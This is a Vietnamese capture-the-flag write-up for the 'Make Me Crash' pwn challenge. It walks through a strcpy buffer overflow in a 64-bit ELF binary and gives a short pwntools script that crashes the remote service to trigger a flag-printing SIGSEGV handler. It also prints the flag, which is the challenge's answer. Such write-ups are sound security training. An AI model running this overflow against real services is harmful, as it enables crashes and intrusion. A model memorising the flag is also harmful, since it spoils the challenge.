





# kcscctf.site - Make Me Crash

Link challenge (Sẽ đóng vào 1/2/2022): http://kcscctf.site/challenges

Bạn cũng có thể tại challenge tại đây: [bof0.zip](bof0.zip)

File zip sẽ bao gồm 1 file:
- bof0

Và chúng ta bắt đầu nào!

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
bof0: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=9fd725407c416c9e8ad3baf64f825783e3fbde97, for GNU/Linux 3.2.0, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến ta sẽ check security của file bằng `checksec`:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta sẽ mở file trong ghidra:

Đây là hàm main()



Còn đây là hàm vuln_here()



Và ta cũng có 1 hàm thú vị là sigsegv_handler() giúp ta lấy flag



Lướt qua hàm main(), ta thấy flag đã được đọc vào biến global. Ở dòng 17, ta thấy signal được thiết lập với signal number là 0xb (tức là lỗi sigsegv) và sẽ gọi tới hàm sigsegv_handler() khi lỗi sigsegv xảy ra. 

Đồng thời ở hàm main(), fgets nhập giá trị có độ dài lên tới 35 byte. Còn ở hàm vuln_here(), ta thấy lệnh strcpy() copy chuỗi được nhập (param_1) vào biến local_17 chỉ có 15 byte --> **Buffer Overflow**

Các signal number các bạn có thể tham khảo tại đây: https://man7.org/linux/man-pages/man7/signal.7.html

# 2. Ý tưởng

Ta sẽ lợi dụng strcpy để gây ra lỗi sigsegv, từ đó ta sẽ lấy được flag.

# 3. Thực hiện

Để lấy flag, ta chỉ việc gây lỗi sigsegv. Lỗi sẽ thường xuất hiện khi ta overwrite 

Lỗi sẽ chỉ xảy ra khi ta nhập dữ liệu vào chương trình. Vì thế ta hãy kiểm tra xem sau khi thực hiện lệnh strcpy() thì sẽ có lỗi gì nhé.



Hàm fgets() và hàm strcpy() thực hiện lệnh bình thường. Lỗi sẽ có thể xảy ra nhất là overwrite rbp hay rip. Ta để ý rằng sau khi thoát khỏi hàm vuln_here() là câu lệnh này:
```
0x00000000004013ce <+163>:	lea    rax,[rbp-0x30]
0x00000000004013d2 <+167>:	mov    rsi,rax
```
Ta cũng biết rằng rsi là tham số thứ 2 được truyền vào hàm printf(). Vậy nếu như ta overwrite rbp thì tức là địa chỉ truyền vào printf sẽ khác đi. Mà nếu địa chỉ không hợp lệ thì khi printf() sẽ gây ra lỗi sigsegv --> lấy được flag.

Vậy ta chỉ việc overwrite rbp với giá trị bất kỳ là xong.

Full code:
```
from pwn import *

# p = process('./bof0')
p = connect('45.77.39.59',10001)

p.recvuntil(b'name?')
p.sendline(b'A'*20)
p.interactive()
```

# 4. Lấy flag



Vậy flag là `KCSC{43ded609-dbfa-4c2a-bdc4-e10283795bbd}`